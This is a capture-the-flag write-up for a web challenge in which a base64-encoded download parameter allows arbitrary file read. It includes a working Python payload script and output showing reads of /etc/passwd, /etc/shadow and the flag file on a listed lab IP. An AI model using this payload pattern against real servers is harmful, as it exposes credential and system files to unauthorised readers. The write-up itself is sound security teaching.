

# eXtreme Injections
> Points: 500

# Description

> I have curated a set of interesting infosec posts and built and API to serve you these, securely. Everything is so minimal and secure that there is no chance of attacks! Feel free to try your luck ;)
>
> `nc 18.141.84.203 50068`

# Solution

After starting up the challenge, we are presented with what seems to be a newfeed for Infosec related articles.



While mapping out the website, we noticed that the URLs would look something like this:

```python
http://18.141.84.203:54843/?s=<BASE64 ENCODED STRING>
```

After decoding the Base64 encoded strings of several URLs, we were able to deduce exactly how the website works:

1. When the `s` query parameter is specified, its value is base64-decoded to get something like the following 3 query strings:

    ```bash
    m=p&l=100 # When the number of displayed posts is changed
    u=ccebf1fc-f670-40ff-86c8-f16bc93c2282&m=r&t=50+million+Facebook+accounts+owned # When a post is clicked on
    m=d&f=uploads%2F70c97cc1-079f-4d01-8798-f36925ec1fd7.pdf # When the "down" link for a post is clicked
    ```

2. Depending on the value of the `m` query parameter, a different action is performed:
    * `p` (Post): Limits the number of posts to display
    * `r` (Redirect): Redirects the browser to the source of the post
    * `d` (Download): Downloads a file

Zooming into the query string for the Download action (where `m=d`), another query parameter, `f`, was found containing a file path.

```bash
m=d&f=uploads%2F70c97cc1-079f-4d01-8798-f36925ec1fd7.pdf # After URL-decoding, it becomes uploads/70c97cc1-079f-4d01-8798-f36925ec1fd7.pdf
```

At this point, we hypothesized we might be able to download files from the web server and hence we began trying out different values. To ease our testing, here is a Python script we created:

```python
import requests
import sys
from urllib.parse import quote
from base64 import b64encode


def generate_encoded_payload(file_path):
    payload = f"m=d&f={quote(file_path)}"
    return b64encode(payload.encode()).decode()

def main():
    target_ip = sys.argv[1]
    target_port = sys.argv[2]
    file_path = sys.argv[3]

    params = {
        "s": generate_encoded_payload(file_path)
    }
    response = requests.get(f"http://{target_ip}:{target_port}/", params=params)
    print("URL:", response.request.url)
    print("Result:\n" + response.text)

if __name__ == "__main__":
    main()
```

Using the above script, we observed that we were able to retrieve the contents of `/etc/passwd`:

```bash 
$ python3 download.py 18.141.84.203 54416 /etc/passwd 
URL: http://18.141.84.203:54416/?s=bT1kJmY9L2V0Yy9wYXNzd2Q%3D
Result: 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

Another observation we found was that we were able to read files that only users with high privileges could read, such as `/etc/shadow`:

```bash
$ python3 download.py 18.141.84.203 54416 /etc/shadow
URL: http://18.141.84.203:54416/?s=bT1kJmY9L2V0Yy9zaGFkb3c%3D
Result:
root:*:19110:0:99999:7:::
daemon:*:19110:0:99999:7:::
bin:*:19110:0:99999:7:::
...
```

Knowing that we can read any files on the target, we immediately tested  file paths of where the flag could possibly be located at and turns out it was at `/root/flag.txt`:

```bash
$ python3 download.py 18.141.84.203 54416 ./flag.txt 
URL: http://18.141.84.203:54416/?s=bT1kJmY9Li9mbGFnLnR4dA%3D%3D
Result:
not found
$ python3 download.py 18.141.84.203 54416 /flag.txt 
URL: http://18.141.84.203:54416/?s=bT1kJmY9L2ZsYWcudHh0
Result:
not found
$ python3 download.py 18.141.84.203 54416 /root/flag.txt
URL: http://18.141.84.203:54416/?s=bT1kJmY9L3Jvb3QvZmxhZy50eHQ%3D
Result:
STANDCON22{sql!t3_!nj3ct!0n5_4_th3_w!n} # <--- The flag!!!

```

# Flag

`STANDCON22{sql!t3_!nj3ct!0n5_4_th3_w!n}`